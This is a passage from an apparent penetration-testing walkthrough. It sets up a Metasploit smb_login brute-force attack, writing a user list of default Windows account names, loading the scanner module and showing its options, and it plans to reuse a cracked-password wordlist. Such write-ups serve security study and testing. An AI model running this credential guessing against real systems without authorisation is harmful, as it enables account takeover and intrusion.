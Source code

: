 First, saving the usernames to a userlist file, and then using the wordlist used to crack the passwords earlier. This will be the list of all users to be tried. Now, the same wordlist will be set as PASS\_FILE and this user list as USER\_FILE for the smb\_login auxiliary scanner module in metasploit. Hopefully, with some luck, access could have been gained:

\begin{lstlisting}[language=bash,caption={}]
root@battlestation:~# printf "Admin\nAdministrator\nGuest" > userlist
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RECORD_GUEST      false            no        Record guest-privileged random logins to the database
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain                          no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts


\end{lstlisting}
